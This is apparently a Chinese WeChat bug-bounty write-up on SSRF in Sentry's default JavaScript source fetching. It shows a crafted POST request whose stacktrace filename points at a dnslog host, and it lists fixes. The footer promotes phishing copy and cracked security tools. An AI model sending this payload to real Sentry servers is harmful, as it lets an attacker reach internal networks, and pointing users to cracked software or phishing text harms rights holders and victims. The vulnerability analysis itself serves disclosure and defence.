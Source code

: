 #  记录一次某SRC的SSRF挖掘-top10漏洞挖掘   
原创 漏洞挖掘  渗透安全HackTwo   2023-12-20 00:00  
  
**0x01前言**  
  
  
        Sentry中Enable JavaScript source fetching（源码预获取）的选项是默认打开的，这个选项的作用是去抓取上报的错误JSON中的stack trace中的filename对应的url对应的代码，所以部署sentry的服务器会盲目的GET请求坏人的url，坏人就达到了通过我们自己的服务器发起恶意请求的攻击目的，可以从外网来攻击内网（SSRF）  
。  
  
**文章末尾领取资料**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq43NodS24T8LU5vJ4xuPuUJJOUys5XuG8hXjj0kZbKtl7A6adZ3YLKuJeia0MERyEkoEGI6ELucJ2Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq43NodS24T8LU5vJ4xuPuUJBSaRjor69R849aLCE0qVxIVUUtaVicJzx7V7IyQaD5c1CKWia6uJNgjw/640?wx_fmt=png&from=appmsg "")  
```
 POST /api/1/store/?sentry_version=7&sentry_client=raven-js%2f3.15.0&sentry_key=xxxxxxxxxxxxxxxxxxxxxxx11d0f87 HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9
Content-type: application/json
Origin:https://xxx.xxx.xxx.xxx

{"project":"30","logger":"javascript","platform":"javascript","exception":{"values":[{"type":"Error","value":"Trying to get control scope but angular isn't ready yet or something like this","stacktrace":{"frames":[{"filename":"http://dnslog/","lineno":110,"colno":81071,"function":"xmlHttpRequest.o","in_app":true}]}}]}}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq43NodS24T8LU5vJ4xuPuUJCmkxo8sLEAbQqcOjC6hFUh1PuRCD0Q7icBLyhNdJrS5wU4JicOOrYa7A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq43NodS24T8LU5vJ4xuPuUJlF9mJ46xnsGWLztFhuWpKfXFmuRssWw8uwohCJ89lb4N4stB6fkicZA/640?wx_fmt=png&from=appmsg "")  
  
  
修复方式:  
1. sentry关闭 source code scrapping；  
  
1. 保证配置文件中的黑名单不为空：/sentry/conf/server.py  
  
1. 关闭源码抓取，隐藏sentry_key  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq43NodS24T8LU5vJ4xuPuUJFib7ryDQDewpAhiaRpXdJl21SdAmQyyXLyeW1T9R3BFDlEuhPMBMl6rQ/640?wx_fmt=png&from=appmsg "")  
  
  
**0x02最后**  
  
如果师傅们不想报昂贵的培训班又想学习  
SRC挖掘欢迎加入  
内部VIP知识星球  
，后台回复“**星球**  
”，有具体介绍，里面可以学习更多漏洞相关的知识和资源，包含但不限于SRC漏洞挖掘、攻防演练、内网渗透及各种工具、学习视频、账号等等，送5张20元优惠券用完即止，早加入早享受（后续价格只增降）。  
  
  
  
  
结尾  
  
# 免责声明  
  
  
# 获取方法  
  
  
**关注领取资源：**  
  
回复“app" 获取  app渗透和app抓包教程  
  
回复“渗透字典" 获取 针对一些字典重新划分处理，收集了几个密码管理字典生成器用来扩展更多字典的仓库。  
  
回复“书籍" 获取 网络安全相关经典书籍电子版pdf  
  
回复“钓鱼001” 获取钓鱼文案  
  
**压缩包解压密码：HackTwo**  
  
# 最后必看  
  
  
    本工具或文章仅面向合法授权的企业安全建设行为，如您需要测试内容的可用性，请自行搭建靶机环境，如果你学习了该文章内容需要测试请自行搭建靶机环境，勿用于非法行为。  
  
  
    为避免被恶意使用，本项目所有收录的poc均为漏洞的理论判断，不存在漏洞利用过程，不会对目标发起真实攻击和漏洞利用。  
  
  
    在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。  
  
  
    如您在使用本工具或阅读文章的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。本工具或文章来源于网络，若有侵权请联系作者删除，请在24小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
# 往期推荐  
  
  
[1. 4.8-CobaltStrike4.8汉化+最新插件集成版发布](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483949&idx=1&sn=cae68096be06be4f0ea746ee5908dc79&chksm=cf16a49df8612d8b0b5cc2e49e6367cc91b7fd1f6d71c555d6631dbd3bd883d5242972e506b9&scene=21#wechat_redirect)  
  
  
[2. 2023HW的110+个poc发布直接下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483899&idx=1&sn=8f428144e749c1f115d39bae69072604&chksm=cf16a74bf8612e5dbc086b8af8a08b195481f367a8904f89ac44e66f06703afe54f1c6c641d6&scene=21#wechat_redirect)  
  
  
[3. 最新Nessus2023下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483887&idx=1&sn=16af3498a081829d23b3dbd8037d000e&chksm=cf16a75ff8612e495b8b97e373e6bdf0297d814d48e8029a387a7c295389757fe7eccd932ba0&scene=21#wechat_redirect)  
  
  
[4. 最新xray1.9.11高级版下载Windows/Linux](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483882&idx=1&sn=e1bf597eb73ee7881ae132cc99ac0c8e&chksm=cf16a75af8612e4c73eda9f52218ccfc6de72725eb37aff59e181435de095b71e653b446c521&scene=21#wechat_redirect)  
  
  
[5. 最新HCL AppScan Standard 10.2.128273破解版下载](http://mp.weixin.qq.com/s?__biz=Mzg3ODE2MjkxMQ==&mid=2247483850&idx=1&sn=8fad4ed1e05443dce28f6ee6d89ab920&chksm=cf16a77af8612e6c688c55f7a899fe123b0f71735eb15988321d0bd4d14363690c96537bc1fb&scene=21#wechat_redirect)  
  
  
  
###### 渗透安全HackTwo  
  
  
微信号：  
关注公众号获取  
  
后台回复星球加入：  
知识星球  
  
扫码关注 了解更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq6qFFAxdkV2tgPPqL76yNTw38UJ9vr5QJQE48ff1I4Gichw7adAcHQx8ePBPmwvouAhs4ArJFVdKkw/640?wx_fmt=png "二维码")  
  
  
  
喜  
欢的朋友可以点赞转  
发支持一下  
  
  
